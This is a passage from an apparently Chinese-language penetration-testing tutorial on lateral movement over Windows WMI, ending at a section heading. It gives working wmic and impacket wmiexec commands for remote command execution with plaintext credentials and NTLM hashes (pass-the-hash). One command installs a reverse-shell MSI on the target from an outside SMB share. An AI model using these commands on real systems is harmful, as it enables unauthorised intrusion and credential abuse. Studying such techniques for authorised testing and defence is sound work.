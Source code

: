 在横向移动时，可以利用WMI提供的管理功能，通过以获取的用户凭据，与本地或远程主机进行交互，并控制其执行各种行为。目前两种常见的利用方法：  
**1、 通过调用WMI的类方法进行远程调用，如Win32\_Process类中的Create方法可以在远程主机上创建进程，Win32\_Product类的Install方法可以在远程主机上安装恶意的MSI  
****2、 远程部署WMI事件订阅，在特定事件发生时触发**

利用WMI进行横向移动需要具备以下条件：  
**1、远程主机的WMI服务为开启状态（默认开启）  
****2、远程主机防火墙放行135端口，这是WMI管理的默认端口**

### [常规利用方法](#toc__4)

在windows上可以通过wmic.exe和powershell cmelet来使用wmi数据和执行WMI方法。  
wmic.exe是一个与WMI进行交互的命令行工具，拥有大量的WMI对象的默认别名，可以执行许多复杂的查询。powershell也提供了许多可以与WMI进行交互的cmelet，如Invoke-WmiMethod、Set-WmiInstance等

**执行远程查询**

通过WMI查询远程主机上运行的进程信息

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process list brief # /node 执行远程主机的地址
```

**创建远程进程**  
通过调用Win32\_Process.Create方法在远程主机上创建进程，启动CMD来执行命令

由于WMIC在执行命令时没有回显，因此可以将执行结果写入文件，然后通过别的方式读取文件

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process call create "cmd.exe /c ipconfig > C:\result.txt"
```

**远程安装MSI文件**  
通过调用Win32\_Product.Install方法，可以控制远程主机安装恶意MSI文件，从而获得权限

```plain
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ product call install PackageLocation="\\192.168.1.1\mysmb\reverse_tcp.msi"
```

### [常见利用工具](#toc__5)

#### [套件impacket-**WmiExec**](#toc_impacket-wmiexec)

Impacket项目的Wmiexec.py能够以全交互或半交互的方式，通过WMI在远程主机上执行命令。该工机需要远程主机开启135和445端口，其中445端口用于传输命令执行的回显。

```plain
python wmiexec.py uf9n1x/Administrator:123qwe@@192.168.1.131 

wmiexec.exe ./administrator:123qwe@@192.168.1.131 "whoami" 
wmiexec.exe god/administrator:Admin12345@192.168.1.131 "whoami" 
wmiexec.exe -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131 "whoami" 
wmiexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131 "whoami"
```

#### [自带 cscript 明文传递 有回显](#toc_cscript)
